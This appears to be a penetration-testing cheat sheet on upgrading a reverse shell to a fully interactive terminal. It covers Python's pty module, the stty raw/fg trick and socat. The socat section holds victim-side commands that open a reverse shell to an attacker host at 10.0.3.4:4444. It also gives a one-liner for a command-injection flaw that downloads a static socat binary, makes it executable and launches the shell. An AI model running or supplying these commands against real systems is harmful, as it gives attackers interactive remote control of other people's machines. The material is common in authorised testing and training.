 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Python pty module

````bash
python -c 'import pty; pty.spawn("/bin/bash")'
````

### Upgrading Netcat with magic

First use python.

````bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
````
Once bash is running in the PTY, background the shell with ``Ctrl-Z``
````bash
# In Kali
$ stty raw -echo
$ fg
````

Then you will be back into the reverse shell.

```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### Using socat

[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.

If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. Pretty sweet.